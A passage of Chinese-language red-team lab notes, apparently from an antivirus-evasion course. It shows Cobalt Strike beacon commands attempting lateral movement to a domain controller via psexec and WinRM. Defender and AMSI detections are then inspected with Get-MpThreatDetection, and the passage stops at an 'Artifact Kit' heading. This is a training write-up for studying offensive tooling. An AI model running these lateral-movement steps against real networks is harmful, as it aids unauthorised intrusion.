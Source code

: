 # Bypassing Antivirus

可以列举C盘，但是无法横向，考虑bypass antivirus，如下显示
```
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
...<skip>...

beacon> jump psexec64 dc-2 smb
[-] Could not start service c8e8647 on dc-2: 225
[-] Could not connect to pipe: 2

beacon> jump winrm64 dc-2 smb
[-] Could not connect to pipe: 2

#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Processing</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="1"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="2"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+  Set-StrictMode -Version 2_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">This script contains malicious content and has been blocked by your antivirus software._x000D__x000A_</S><S S="Error">    + CategoryInfo          : ParserError: (:) [], ParseException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : ScriptContainedMaliciousContent_x000D__x000A_</S><S S="Error">    + PSComputerName        : dc-2_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
```

上面xml文字出现了**This script contains malicious content and has been blocked by your antivirus software**字样，表明程序被AMSI（antimalware scan interface）杀掉了

```Get-MpThreatDetection```是一个 Windows Defender cmdlet，可以显示检测到的威胁
```
beacon> remote-exec winrm dc-2 Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources

ActionSuccess  : True
DomainUser     : 
ProcessName    : Unknown
Resources      : {file:_C:\Windows\c8e8647.exe, file:_\\dc-2\ADMIN$\c8e8647.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04

ActionSuccess  : True
DomainUser     : DEV\nlamb
ProcessName    : C:\Windows\System32\wsmprovhost.exe
Resources      : {amsi:_C:\Windows\System32\wsmprovhost.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04
```

第一条是尝试使用```psexec64```,可执行程序```c8e8647.exe```已自动上传到靶机，但是被侦测到并被从硬盘上删除。

第二条是尝试使用```winrm64```,```wsmprovhost.exe```被AMSI从内存中侦测到，并且被阻止执行。

# Artifact Kit
```